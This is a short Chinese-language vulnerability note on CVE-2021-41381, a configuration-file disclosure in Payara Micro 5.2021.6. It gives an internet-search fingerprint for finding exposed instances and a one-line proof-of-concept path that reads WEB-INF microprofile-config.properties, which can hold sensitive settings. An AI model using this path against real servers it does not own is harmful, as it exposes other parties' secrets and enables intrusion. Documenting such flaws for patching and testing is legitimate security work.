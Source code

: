 ```yaml
---
title: PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381
---
```


# PayaraMicro microprofile-config.properties 信息泄漏漏洞 CVE-2021-41381

## 漏洞描述

PayaraMicro microprofile-config.properties文件配置错误的情况下可被任意用户读取，获取敏感信息

## 漏洞影响

<a-checkbox checked>Payara Micro Community 5.2021.6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Payara-Micro"</a-checkbox></br>

## 漏洞复现

产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633094689200-c5ef35c0-8611-4d3b-a900-d2c4ad2be72b.png)

验证POC

```java
/.//WEB-INF/classes/META-INF/microprofile-config.properties
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1633094812047-1a69a79c-0757-4941-b4da-b2763cbacc26.png)